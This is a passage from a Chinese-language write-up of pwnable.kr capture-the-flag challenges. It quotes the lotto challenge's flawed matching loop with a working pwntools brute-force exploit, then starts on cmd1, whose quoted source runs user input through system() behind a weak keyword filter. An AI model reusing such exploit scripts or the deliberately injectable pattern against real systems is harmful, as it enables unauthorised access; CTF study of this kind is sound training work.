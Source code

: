 程序逻辑漏洞

下负数赌注，输了就拿到正数的钱了。。。。。。。

## 0x0D lotto

源码中比较过程存在问题

```c
	int match = 0, j = 0;
	for(i=0; i<6; i++){
		for(j=0; j<6; j++){
			if(lotto[i] == submit[j]){ //事实上只要submit[j]同时押中一个lotto[i]就能刷满分
				match++;
			}
		}
	}
```

大大降低了爆破难度，跑个脚本就可以了

**Exp**

```
#coding=utf-8
from pwn import *

shell=ssh("lotto","pwnable.kr",2222,"guest")

#shell.download_file("./lotto.c")
sh=shell.run("./lotto")
sh.recv()

payload=chr(1)+chr(1)+chr(1)+chr(1)+chr(1)+chr(1)

while 1:
    sh.sendline("1")
    print sh.recv()
    sh.sendline(payload)
    text=sh.recv()
    print len(text)
    if len(text)>71:
        print text
        break
```

## 0x0E cmd1

```cpp
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```
